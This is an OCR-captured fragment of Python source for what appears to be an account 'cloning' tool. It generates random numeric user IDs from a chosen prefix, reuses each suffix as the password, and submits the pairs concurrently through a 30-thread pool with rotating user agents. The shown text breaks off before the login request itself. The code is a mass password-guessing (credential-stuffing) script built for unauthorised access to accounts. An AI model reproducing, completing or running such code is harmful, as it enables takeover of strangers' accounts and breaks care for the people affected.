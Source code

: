     linex()

    code = input(' ASMOXXXZTR : ')

    os.system("clear")

    print(logo)

    print(f"")

    print(f"\033[1;32m===================================================")

    print(f"")

    limit = int(input('\033[1;32m EXAMPLE: 1000, 3000, 5000, 50000,  10000\n\n PUT CLONING LIMIT: '))

    for nmbr in range(limit):

        nmp = ''.join(random.choice(string.digits) for _ in range(7))

        user.append(nmp)

    with ThreadPool(max_workers=30) as yaari:

        clear()

        tl = str(len(user))

        print(f" {BLUE}TOTAL IDZ      \033[1;39m◈\033[1;32m✙\033[1;39m◈ {BLUE}"+tl)

        print(f" {BLUE}NUMBER YOU PUT \033[1;39m◈\033[1;32m✙\033[1;39m◈  {BLUE}"+code)

        print(f" {BLUE}PROCESS HAS BEEN STARTED")

        print(f" {BLUE}TO STOP PROCESS Ctrl + Z ")

        print(f'\033137m[\033[1;32m=================================\033[1;37m\033137m[\033[1;32m=================================')

        for love in user:

            uid = code+love

            pwx = [love]

            yaari.submit(free,uid,pwx,tl)

def free(uid,pwx,tl):

    global loop

    global oks

    global agents

    try:

        for ps in pwx:

            bi = random.choice([A])

            session = requests.Session()

            pro = random.choice(ugen)
